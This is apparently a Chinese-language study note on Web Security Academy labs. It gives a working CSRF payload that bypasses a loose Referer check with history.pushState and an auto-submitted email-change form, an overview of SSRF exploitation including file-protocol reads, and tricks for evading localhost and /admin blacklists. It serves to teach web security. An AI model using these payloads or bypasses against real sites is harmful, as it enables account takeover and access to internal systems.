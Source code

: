 #### 实验：使用损坏的 Referer 验证绕过 CSRF 保护

这个绕过是利用了这个网站验证referer时只验证里面是否有预期的域，不管形式是什么样的，只要存在就行

```html
<script>
history.pushState("", "", "/?YOUR-LAB-ID.web-security-academy.net")
</script>
<form method="POST"action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="marin@email">
</form>

<script>
        document.forms[0].submit();
</script>
```

在这里有个新的语法，我们这里不会修改整个url，而是会修改路径变为整个查询参数

这个是用来修改当前页面的url但是不会重新加载页面

```javascript
history.pushState(state, title, url);
```

* state：状态对象，可以为空
* title：新页面的标题，可以为空
* url：用来替换当前url的新url

在这个实验中，还要在头上加上，因为浏览器会自动从referer标头删除查询字符串

```
Referrer-Policy: unsafe-url
```

所以绕过了检查

## 服务器端请求伪造（SSRF）

这是一种网络安全漏洞，攻击者的操作会导致服务器端应用向非预期位置发出请求
一般来说，ssrf攻击的目标是从外网无法访问的内部系统，因为请求是从服务端发起的，可以请求到和他相连的但外网无法访问的内部系统

ssrf形成原因大都是由于服务端提供了从其他服务器应用获取数据的功能但是没有对目标地址进行过滤和限制

### 利用方式

* 扫描内部网络，获取端口，服务信息
* 攻击运行在内网或本地的应用
* 对内网web进行指纹识别（相当于收集web服务的信息）
* 对内部主机和端口发送请求包进行攻击
* file协议读取本地文件

### 常见的防御措施

基于黑名单的过滤，对包含主机名的**127.0.0.1**或**localhost**或敏感url，如**/admin**会被绕过**​**如何绕过：**​****127.0.0.1****​**可以用**127.1**来绕过，** /admin**可以用url编码来绕过，例如a通过两次url编码会变成  **%2561**
